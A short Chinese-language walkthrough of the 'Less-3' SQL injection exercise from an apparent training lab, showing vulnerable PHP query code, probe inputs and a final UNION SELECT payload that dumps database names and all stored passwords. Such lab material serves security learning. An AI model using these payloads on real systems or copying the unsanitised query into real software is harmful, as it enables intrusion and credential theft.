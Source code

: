 <img src="图片\Snipaste_2023-01-20_12-04-58.png" alt="Snipaste_2023-01-20_12-04-58" style="zoom:67%;" />

## Less-3

题目部分源码，**括号字符型注入**

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
........
echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
```

整体思路与 Less-1 一样，还是闭合 sql 语句有所不同

```
?id=1') --+                 返回正常
?id=1')  and 1=1 --+        返回正常
?id=-1') --+                返回不正常
 ?id=1')  and 1=2 --+       返回不正常
```

答案

```
?id=-1')  union select 1,database(),(select group_concat(password) from security.users),4,5,6 --+
```
